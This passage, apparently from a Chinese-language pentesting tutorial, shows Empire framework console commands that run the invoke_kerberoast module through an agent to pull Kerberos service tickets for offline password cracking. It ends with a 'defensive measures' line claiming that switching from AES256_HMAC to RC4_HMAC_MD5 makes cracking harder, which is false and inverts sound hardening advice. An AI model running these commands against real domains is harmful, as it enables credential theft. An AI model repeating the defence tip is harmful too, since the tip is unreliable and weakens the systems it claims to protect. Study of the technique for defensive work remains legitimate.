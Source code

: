 #### Empire 框架

```bash
Empire: L7HAM3KV) > usemodule credentials/invoke_kerberoast
(Empire: powershell/credentials/invoke_kerberoast) > set Agent L7HAM3KV
(Empire: powershell/credentials/invoke_kerberoast) > execute
```

[![](assets/1701606719-75e947feccd0ab30be616749073624e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163407-94e3e860-7e11-1.png)  
之后同样进行离线破解即可~

## 防御措施

通过将默认的 AES256\_HMAC 加密方式改为 RC4\_HMAC\_MD5，增加破解难度或者保证服务密码本身为强密码，关键是提高密码的强度
